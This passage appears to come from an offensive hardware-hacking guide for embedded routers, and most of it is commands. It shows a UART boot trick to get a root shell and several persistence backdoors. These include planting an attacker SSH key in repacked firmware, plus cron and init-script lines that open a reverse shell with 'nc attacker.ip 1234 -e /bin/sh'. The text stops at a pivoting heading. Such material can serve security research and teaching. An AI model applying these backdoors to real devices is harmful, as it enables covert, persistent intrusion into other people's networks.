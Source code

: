 **Method 3: UART shell**

```bash
# Connect to UART (see Hardware Interfaces section)
# Interrupt boot, modify bootargs to spawn shell:
setenv bootargs "init=/bin/sh"
boot
```

### Persistence Mechanisms

**Method 1: Modified firmware**

```bash
# Extract firmware, add backdoor, repack, upload

# Example: Add SSH authorized_key
echo "ssh-rsa AAAA... attacker@host" >> squashfs-root/etc/dropbear/authorized_keys

# Repack squashfs:
mksquashfs squashfs-root/ filesystem_modified.squashfs -comp xz

# Rebuild firmware image:
# (depends on firmware format - TRX, BIN, etc.)

# Upload modified firmware via web interface or TFTP
```

**Method 2: Cron job**

```bash
# Add cron job (if device supports cron):
echo "*/5 * * * * nc attacker.ip 1234 -e /bin/sh" >> /etc/crontabs/root

# Make persistent (if filesystem is writable):
# Mount root filesystem as RW, modify, sync
mount -o remount,rw /
echo "*/5 * * * * nc attacker.ip 1234 -e /bin/sh" >> /etc/crontabs/root
sync
```

**Method 3: Init script**

```bash
# Add backdoor to init script:
echo "nc attacker.ip 1234 -e /bin/sh &" >> /etc/init.d/rcS

# Make persistent:
mount -o remount,rw /
sync
```

### Post-Exploitation

**Network pivoting:**
